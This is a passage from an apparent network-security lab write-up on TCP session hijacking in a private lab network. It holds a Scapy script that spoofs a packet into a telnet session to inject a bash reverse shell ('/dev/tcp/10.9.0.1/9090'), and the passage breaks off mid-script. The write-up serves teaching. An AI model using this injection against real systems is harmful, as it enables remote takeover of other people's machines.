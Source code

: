     - ![auto tcp hijack](images/auto_tcp_hijack.png)
- we see that the command is executed and the flag is sent to the netcat listener on the host VM

## Task 4 Getting Reverse Shell using Automated TCP Session Hijacking
- We are asked to get a reverse shell on the victim machine using the TCP session hijacking technique
- For this task our victim machine is host 1, IP address: `10.9.0.6` and our host machine is victim machine, IP address: `10.9.0.5`, counter intuitive, but the victim machine is the victim of the spoofing.
- Then getting a reverse shell is trivial as we can just use the same technique as task 3 to inject the reverse shell command into the telnet session instead of the `cat` command
- ```python
    #!/usr/bin/env python3
    from scapy.all import *
    import time
    import threading

    sequenceNumber = 0
    ackNumber = 0
    sourcePort = 0
    lastPacketTime = None
    timeout = 10 
    done = False

    def hijackConnection():
        """Crafts and sends a TCP A packet to terminate the connection."""
        global sequenceNumber, ackNumber, sourcePort, done
        print(f"\n[!] No packets seen for {timeout} seconds. Sending hijack command packet...")
        ip = IP(src="10.9.0.5", dst="10.9.0.6")
        # uses last seen sequence number and port to target the connection
        tcp = TCP(sport=sourcePort, dport=23, flags="A", seq=sequenceNumber, ack=ackNumber)
        data = "\nbash -i >& /dev/tcp/10.9.0.1/9090 0>&1\n"
        pkt = ip/tcp/data
        print("[+] Hijack packet details:")
        ls(pkt)
        